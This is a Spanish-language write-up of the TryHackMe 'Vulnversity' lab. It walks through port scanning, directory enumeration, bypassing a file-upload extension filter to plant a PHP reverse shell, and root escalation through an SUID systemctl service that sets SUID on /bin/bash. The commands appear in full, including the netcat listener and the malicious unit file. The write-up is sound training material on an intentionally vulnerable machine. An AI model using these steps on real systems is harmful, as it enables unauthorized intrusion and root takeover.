# Vulnversity — TryHackMe Writeup

> Sala: [Vulnversity](https://tryhackme.com/room/vulnversity)
> Dificultad: Easy
> Técnicas: Enumeración de puertos, fuzzing web, file upload bypass, escalada de privilegios vía SUID


## Resumen

Máquina Linux (Ubuntu) que expone un servidor web Apache en un puerto no
estándar (3333). Mediante enumeración de directorios se encontró un
formulario de carga de archivos sin autenticación (`/internal/`), vulnerable
a bypass de filtro de extensiones — subiendo una reverse shell PHP con
extensión `.phtml` se obtuvo ejecución remota de código como `www-data`. La
escalada de privilegios se logró explotando una mala configuración de
permisos SUID sobre el binario `systemctl`, abusando de la capacidad de crear
y activar servicios de systemd arbitrarios para obtener una shell como root.

## Objetivo

El reto consiste en comprometer un servidor web expuesto y, una vez dentro,
escalar privilegios hasta obtener acceso como usuario root. La sala está
enfocada en practicar: reconocimiento activo, ataques a aplicaciones web
(file upload) y técnicas de post-explotación / escalada de privilegios.

---

## 1. Reconocimiento

Arrancamos con un escaneo de reconocimiento activo usando `nmap`, incluyendo
detección de versión de servicio (`-sV`) y scripts por defecto (`-sC`):

```bash
nmap -sC -sV <IP>
```



### Resultado

| Puerto | Servicio      | Versión                              |
|--------|---------------|---------------------------------------|
| 21     | ftp           | vsftpd 3.0.5                          |
| 22     | ssh           | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13      |
| 139    | netbios-ssn   | Samba smbd 4.6.2                      |
| 445    | netbios-ssn   | Samba smbd 4.6.2                      |
| 3128   | http-proxy    | Squid http proxy 4.10                 |
| 3333   | http          | Apache httpd 2.4.41 ((Ubuntu))        |

### Preguntas y razonamiento

**¿Cuántos puertos están abiertos?**
Contando la tabla de resultados: `21, 22, 139, 445, 3128, 3333` → **6 puertos**.

**¿Qué versión de Squid proxy está corriendo?**
Se lee directo de la columna VERSION del puerto 3128 → **Squid http proxy 4.10**.

**¿Cuántos puertos escanearía Nmap si se usara la bandera `-p-400`?**
Aquí hay que entender bien la sintaxis de nmap: `-p-` sin número escanea el rango
completo (1–65535). Al escribir `-p-400`, en realidad se está indicando un rango
que **termina** en el puerto 400 (equivalente a `-p1-400`) — nmap interpreta el
guion como apertura de rango y el número como el límite superior. Por defecto,
sin `-p`, nmap solo escanea los 1000 puertos más comunes.
→ Respuesta: **400 puertos**.

**¿Cuál es el sistema operativo más probable de esta máquina?**
El banner de SSH (`OpenSSH ... Ubuntu`) y el de Apache (`(Ubuntu)`) lo confirman
directamente → **Linux (Ubuntu)**.

**¿En qué puerto corre el servidor web?**
Ojo aquí: hay DOS servicios que a primera vista parecen "web" — el puerto 3128
(Squid, que es un *proxy*, no el servidor web en sí) y el 3333 (Apache httpd,
el servidor web real). → Respuesta: **3333**.

**¿Cuál es la bandera de Nmap para modo verbose?**
Documentación estándar de nmap → **`-v`** (o `-vv` para más detalle aún).

---

## 2. Enumeración web

Del resultado del nmap identificamos que el puerto 3333 corre un servidor web
Apache. Accedemos primero por navegador para ver de qué se trata:


Es una página estática tipo landing page de una universidad ("Vuln University").
No hay ningún formulario de login ni funcionalidad visible desde la home, así
que el siguiente paso lógico es enumerar directorios ocultos que no están
enlazados desde la navegación visible.

```bash
dirb http://<IP>:3333/
```



### Resultado

```
==> DIRECTORY: /css/
==> DIRECTORY: /fonts/
+ /index.html (CODE:200|SIZE:33014)
==> DIRECTORY: /images/
==> DIRECTORY: /internal/     <-- interesante
==> DIRECTORY: /js/
+ /server-status (CODE:403|SIZE:280)
```

La mayoría de los directorios encontrados son recursos propios de la página
(CSS, fuentes, imágenes, JS) — ruido esperado de cualquier sitio web estático.
El que realmente destaca es **`/internal/`**, un nombre poco común para un
recurso público de un sitio de este tipo, lo cual lo vuelve el candidato más
prometedor para revisar primero (aquí es donde aplicamos el principio de
"profundiza en lo que se ve más prometedor, no en todo por igual").

Al acceder a `http://<IP>:3333/internal/` nos encontramos con un **formulario
de carga de archivos (upload)**:



Este es un hallazgo clave: un formulario de upload sin autenticación visible es
un vector de ataque clásico — si el servidor no valida correctamente el tipo de
archivo subido, se puede subir una webshell y obtener ejecución remota de código.

### Pregunta

**¿Cuál es el directorio que tiene una página con formulario de upload?**
→ Respuesta: **`/internal/`**

---

## 3. Explotación inicial

### 3.1 Descubrir qué extensiones acepta el upload

Antes de intentar subir una webshell a ciegas, conviene primero descubrir qué
extensiones bloquea/permite el formulario. Preparamos una wordlist con las
extensiones típicas usadas para bypass de upload filters en PHP:



```
.php
.php3
.php4
.php5
.phtml
```

Interceptamos una petición de subida con Burp Suite para tener la plantilla
del request:



La enviamos a **Intruder**, marcamos la extensión del nombre de archivo como
posición variable (`shell.§php§`), y cargamos la wordlist de extensiones como
payload:




### Resultado del fuzzing



> **Nota metodológica:** todas las respuestas devuelven `Status Code 200`, y solo
> hay una diferencia mínima de 1 byte en `Length` entre extensiones — eso por sí
> solo **no es prueba suficiente** de cuál extensión fue aceptada (un 200 con
> mensaje "Extension not allowed" también es un 200). Para confirmarlo bien, hay
> que revisar el cuerpo de la respuesta de cada intento (pestaña *Response*), o
> añadir una columna de *Grep Match* en Intruder buscando el texto `Success`.
> En este caso la extensión que resultó permitida (`.phtml`) se terminó de
> confirmar de forma inequívoca en el paso manual siguiente.

### 3.2 Preparar y subir la reverse shell

Descargamos la reverse shell clásica de PHP de pentestmonkey:

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```



Editamos el archivo para apuntar la IP y puerto al listener local (variables
`$ip` y `$port` dentro del script), y renombramos la extensión a `.phtml` para
saltarnos el filtro:

```bash
mv php-reverse-shell.php php-reverse-shell.phtml
```

Levantamos el listener en nuestra máquina atacante:

```bash
nc -lvnp 1234
```

Intentamos subir el archivo por el formulario de `/internal/`:



Tras confirmar el nombre/extensión correctos, la subida se completa con éxito
(`Success`) y, al acceder directamente al archivo subido, se dispara la
reverse shell hacia nuestro listener:

```
http://<IP>:3333/internal/uploads/php-reverse-shell.phtml
```



```
$ nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 10.64.153.241 56692
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Ganamos ejecución remota de código como el usuario `www-data`.

---

## 4. Enumeración post-explotación

Ya con ejecución de comandos como `www-data`, empezamos la enumeración local
rápida: quiénes somos y qué usuarios existen en el sistema.

```bash
whoami
ls /home
```



Confirmamos con `/etc/passwd` — filtrando mentalmente por usuarios con shell
interactiva (`/bin/bash`) en vez de cuentas de servicio (`nologin`/`false`),
identificamos dos usuarios "humanos": `bill` (UID 1000) y `ubuntu` (UID 1001).



Al revisar el home de `bill` encontramos la flag de usuario:

```bash
cd /home/bill
ls
cat user.txt
```



**User flag:** `[censurada — ver sección Flags]`

---

## 5. Escalada de privilegios

Con acceso de usuario confirmado, el siguiente paso estándar es buscar
binarios con el bit **SUID** activado, ya que representan una de las rutas
más comunes de escalada de privilegios en Linux.

```bash
find / -perm -4000 -type f 2>/dev/null
```



### ¿Qué es SUID y por qué importa aquí?

El bit SUID (*Set User ID*) hace que, al ejecutar un binario, el proceso corra
con los permisos del **dueño del archivo** en vez de los permisos del usuario
que lo ejecuta. La mayoría de binarios de la lista (`passwd`, `su`, `sudo`,
`mount`, `chsh`, etc.) son binarios del sistema que **legítimamente** necesitan
SUID para funcionar — por ejemplo, `passwd` necesita escribir en `/etc/shadow`,
un archivo al que un usuario normal no tiene acceso.

Sin embargo, en esta lista destaca `/bin/systemctl`. Esto es una mala
configuración intencional de la máquina: `systemctl` es la herramienta para
gestionar servicios de `systemd` (arrancar, detener, habilitar servicios), y
**por defecto no necesita ni debería tener el bit SUID activo** en una
instalación normal de Ubuntu. Que lo tenga aquí es la señal de que fue
configurado deliberadamente como vector de escalada.

### ¿Por qué esto permite escalar a root?

Cuando `systemctl` corre con SUID, cualquier acción que hagamos con él se
ejecuta con privilegios de root — incluyendo **crear y activar un servicio
nuevo**. Como un servicio de `systemd` puede definir un comando arbitrario
para ejecutar (`ExecStart=`), podemos crear un servicio que ejecute un comando
que nos dé privilegios elevados (por ejemplo, aplicar el bit SUID a `/bin/bash`),
y como el servicio se ejecuta como root, ese comando también corre como root.
Este abuso está documentado en [GTFOBins - systemctl](https://gtfobins.github.io/gtfobins/systemctl/).

### Pasos para explotarlo

**1. Crear un archivo de definición de servicio malicioso:**
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
```
Esto define un servicio de tipo `oneshot` (se ejecuta una vez y termina) cuya
única tarea es darle el bit SUID a `/bin/bash`.

**2. Registrar y activar el servicio:**
```bash
systemctl link $TF
systemctl enable --now $TF
```
`link` registra el archivo como un servicio válido de systemd; `enable --now`
lo activa inmediatamente. Como `systemctl` tiene SUID, esta ejecución corre
como root, y por lo tanto el `chmod +s /bin/bash` del servicio también.

**3. Obtener una shell de root:**
```bash
/bin/bash -p
```
El flag `-p` es importante: preserva los privilegios efectivos (evita que
bash baje automáticamente al UID real al notar que no coincide con el
efectivo, que es una protección de seguridad estándar de bash).

**4. Confirmar y capturar la flag de root:**
```bash
whoami
id
cat /root/root.txt
```

---

### Ejecución y evidencia

**Paso 1 — Crear el archivo de definición del servicio**

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
```



`mktemp` genera un archivo temporal único en `/tmp` y devuelve su nombre; al
concatenarle `.service` y guardarlo en la variable `TF`, tenemos una ruta de
archivo de servicio válida para systemd sin necesidad de un editor como nano.
El `echo '...' > $TF` escribe el contenido directamente en ese archivo usando
redirección de shell — no hace falta abrir ningún editor.

Confirmamos que el contenido quedó bien escrito:



Las 5 líneas coinciden con lo que se pegó: el servicio, al ejecutarse, corre
`chmod +s /bin/bash` — es decir, le agrega el bit SUID al binario de bash.

**Paso 2 — Registrar y activar el servicio**

```bash
systemctl link $TF
systemctl enable --now $TF
```



`systemctl link` registra el archivo como una unidad válida de systemd
(crea un symlink en `/etc/systemd/system/`). `systemctl enable --now` lo
habilita y lo **ejecuta de inmediato**. Este es el paso crítico: como el
binario `systemctl` tiene el bit SUID activo, este comando se ejecuta con
privilegios de **root**, y por lo tanto el `ExecStart` del servicio (el
`chmod +s /bin/bash`) también corre como root — dejando `/bin/bash` con
permisos SUID.

**Paso 3 — Obtener shell de root**

```bash
/bin/bash -p
whoami
id
```



Al correr `/bin/bash -p` (el flag `-p` preserva privilegios elevados en vez
de que bash los baje automáticamente por seguridad), obtenemos una shell con
`euid=0(root)` — es decir, aunque el UID real sigue siendo `www-data` (33),
el **UID efectivo** ya es `0` (root), que es lo que el sistema evalúa para
otorgar permisos. `whoami` confirma directamente `root`.

**Paso 4 — Capturar la flag de root**

```bash
cd /root
ls
cat root.txt
```



Dentro de `/root` (accesible ahora gracias a los privilegios elevados)
encontramos y leemos `root.txt`, completando el reto.

**Root flag:** `[censurada — inténtalo tú mismo siguiendo esta guía]`

---

## Flags

- User: `[censurada]` — encontrada en `/home/bill/user.txt`
- Root: `[censurada]` — encontrada en `/root/root.txt`

*(Flags censuradas intencionalmente — sigue esta guía paso a paso para
obtenerlas tú mismo. Esto respeta las políticas de TryHackMe sobre no
publicar respuestas directas.)*

---

## Lecciones aprendidas

- **La enumeración de directorios web puede revelar funcionalidad oculta.**
  El formulario de `/internal/` no estaba enlazado desde ningún lado visible
  del sitio, pero sí era accesible directamente — la seguridad por
  oscuridad no es seguridad real.
- **Los filtros de extensión de archivo basados en blacklist son frágiles.**
  El servidor probablemente bloqueaba `.php` pero no contempló variantes
  como `.phtml`, que muchos servidores Apache igual interpretan como PHP
  ejecutable.
- **Fuzzing sistemático > prueba y error.** Usar Burp Intruder con una
  wordlist de extensiones fue mucho más rápido y metódico que probar
  extensiones una por una manualmente.
- **Revisar siempre el cuerpo de la respuesta, no solo el status code.**
  Un `200 OK` no siempre significa éxito; hay que confirmar con el
  contenido real de la respuesta.
- **SUID mal configurado en binarios "de administración" (no solo los
  típicos como `su`/`passwd`) es una vía de escalada real.** Vale la pena
  comparar cualquier binario con SUID contra [GTFOBins](https://gtfobins.github.io/)
  para ver si tiene un método de explotación documentado.
- **`bash -p` es necesario tras un `chmod +s`** para que la shell resultante
  mantenga el UID efectivo elevado, en vez de que bash lo baje
  automáticamente por su propia protección de seguridad.
